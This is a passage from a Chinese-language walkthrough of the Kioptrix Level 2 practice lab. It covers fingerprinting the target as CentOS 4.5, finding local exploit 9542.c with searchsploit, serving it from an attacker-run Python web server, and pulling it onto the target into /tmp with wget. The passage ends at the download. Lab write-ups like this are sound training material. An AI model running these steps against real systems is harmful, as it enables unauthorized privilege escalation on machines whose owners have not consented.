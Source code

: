 信息如下


[![](https://files.mdnice.com/user/81572/914382e8-17c8-476e-829f-68b955dedd3c.png)](https://files.mdnice.com/user/81572/914382e8-17c8-476e-829f-68b955dedd3c.png)



```
Linux kioptrix.level2 2.6.9-55.EL
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5

```

可以知道是**centos4\.5**版本，查找该版本漏洞


找到漏洞利用脚本


[![](https://files.mdnice.com/user/81572/320d24a6-616a-49d2-b71e-94a6dde297c4.png)](https://files.mdnice.com/user/81572/320d24a6-616a-49d2-b71e-94a6dde297c4.png)


利用searchsploit命令下载脚本，这里可以看我之前总结的命令使用详情
[searchsploit命令大全](https://github.com)



```
searchsploit centos 4.5 -m 9542.c  

```

下载成功


[![](https://files.mdnice.com/user/81572/217bd81b-c3d1-4ac0-9d3f-5b583d37f1df.png)](https://files.mdnice.com/user/81572/217bd81b-c3d1-4ac0-9d3f-5b583d37f1df.png)


开启web服务



```
sudo python -m http.server 80

```

成功上传


[![](https://files.mdnice.com/user/81572/f414f296-e1b4-430f-940c-16e2a1c5770b.png)](https://files.mdnice.com/user/81572/f414f296-e1b4-430f-940c-16e2a1c5770b.png)


在目标主机上下载脚本



```
cd /tmp
wget http://192.168.108.130:80/9542.c

```
